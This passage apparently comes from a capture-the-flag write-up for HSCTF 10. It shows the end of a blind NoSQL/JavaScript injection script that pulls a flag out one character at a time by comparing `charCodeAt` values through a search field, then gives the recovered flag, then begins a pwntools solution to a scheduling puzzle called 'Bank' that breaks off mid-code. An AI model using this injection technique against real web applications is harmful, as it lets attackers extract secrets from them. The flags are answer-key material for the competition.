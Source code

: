 ```python

        req = requests.post(url, json={'search': f"') && (this.flag.charCodeAt({index})>={start2} && this.flag.charCodeAt({index})<={end2} && '1' == '1"})

        return checkAndReduce(start2,end2,index)

arr = []

for i in range(28):
        arr.append(checkAndReduce(33,126,i))
        print(arr)
```

This will eventually output:
```python
['f', 'l', 'a', 'g', '{', 'h', 's', 'c', 't', 'f', '_', 'g', 'a', 'c', 'h', 'a', '_', 'g', 'a', 'm', 'e', '_', 'w', 'h', 'e', 'n', '?', '}']
```

Which is:
```flag{hsctf_gacha_game_when?}```

# Bank

## Description

``nc bank.hsctf.com 1337``

File: [Bank.pdf](https://hsctf-10-resources.storage.googleapis.com/uploads/e897a468fea4fcaa4b7bb12e5ff30f3cfe3668e43e494519fb44a9f30f345c9b/Bank.pdf)

## Solution

My solution was to recursively find available accounts to hack by finding the account with the closest end time that was atleast 10 minutes away from the current time:

```python
from pwn import *

io = remote('bank.hsctf.com', 1337)

for i in range(5):
        num = int(io.recvline().decode('utf-8'))

        accounts = []

        for x in range(num):
                data = io.recvline().decode('utf-8').split(' ')
                accounts.append([int(c) for c in data])

        print(accounts)

        hacked = 0

        time = 0

        while True:
                first = [10000000,10000000000]

                for c in accounts:
                        if c[1] < first[1]:
                                if time + 10 <= c[1]:
                                        first=c

                if first == [10000000,10000000000]:
```